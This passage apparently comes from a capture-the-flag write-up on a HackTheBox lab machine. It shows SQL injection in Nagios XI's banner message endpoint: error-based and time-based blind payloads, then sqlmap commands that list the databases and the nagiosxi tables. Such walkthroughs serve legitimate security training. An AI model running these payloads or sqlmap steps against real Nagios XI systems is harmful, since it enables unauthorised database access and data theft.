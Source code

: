         Type: error-based
        Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
        Payload: id=3 OR (SELECT 7131 FROM(SELECT COUNT(*),CONCAT(0x7171787071,(SELECT (ELT(7131=7131,1))),0x7162766271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)&action=acknowledge_banner_message

        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: id=3 AND (SELECT 4440 FROM (SELECT(SLEEP(5)))LDBp)&action=acknowledge_banner_message
    ---
    ...[snip]...



#### Database Enumeration

From here I can enumerate the database. There are two DBs:



    oxdf@hacky$ sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php" --data="id=3&action=acknowledge_banner_message" -p id --cookie "nagiosxi=bspu3ilq508jivkicfqofjo29g" --batch --threads 10 --dbs
    ...[snip]...
    available databases [2]:
    [*] information_schema
    [*] nagiosxi
    ...[snip]...



The interesting one is `nagiosxi`, which has 22 tables:



    oxdf@hacky$ sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php" --data="id=3&action=acknowledge_banner_message" -p id --cookie "nagiosxi=bspu3ilq508jivkicfqofjo29g" --batch --threads 10 -D nagiosxi --tables
    ...[snip]...
    Database: nagiosxi
    [22 tables]
    +-----------------------------+
    | xi_auditlog                 |
    | xi_auth_tokens              |
    | xi_banner_messages          |
    | xi_cmp_ccm_backups          |
    | xi_cmp_favorites            |
    | xi_cmp_nagiosbpi_backups    |
    | xi_cmp_scheduledreports_log |
    | xi_cmp_trapdata             |
    | xi_cmp_trapdata_log         |
    | xi_commands                 |
    | xi_deploy_agents            |
    | xi_deploy_jobs              |
    | xi_eventqueue               |
    | xi_events                   |
    | xi_link_users_messages      |
    | xi_meta                     |